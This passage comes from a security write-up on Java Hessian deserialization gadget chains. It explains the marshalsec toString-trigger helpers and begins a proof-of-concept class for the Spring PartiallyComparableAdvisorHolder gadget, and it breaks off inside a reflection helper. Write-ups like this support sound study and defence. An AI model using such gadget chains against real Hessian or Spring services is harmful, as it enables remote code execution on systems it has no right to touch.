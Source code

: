  - Then follow up on `UtilFactory#makeToStringTriggerUnstable`, and continue to call the `ToStringUtil#makeToStringTrigger` method. Then call the `JDKUtil#makeMap` method, which is the same as the analysis after `RomeGadget`.

```java
Object makeToStringTriggerUnstable ( Object obj ) throws Exception;


default Object makeToStringTriggerStable (Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC
There are a few lines of code in the serialization part in `POC`, because generally, for object serialization, if the corresponding `class` of the object does not implement `java.io.Serializable`, there is no way to serialize it.
, so the output stream is set here so that it can output objects that do not implement the `java.io.Serializable` interface.
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 6:26 pm
 */
public class SpringPartiallyComparableAdvisorHolderGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);
```
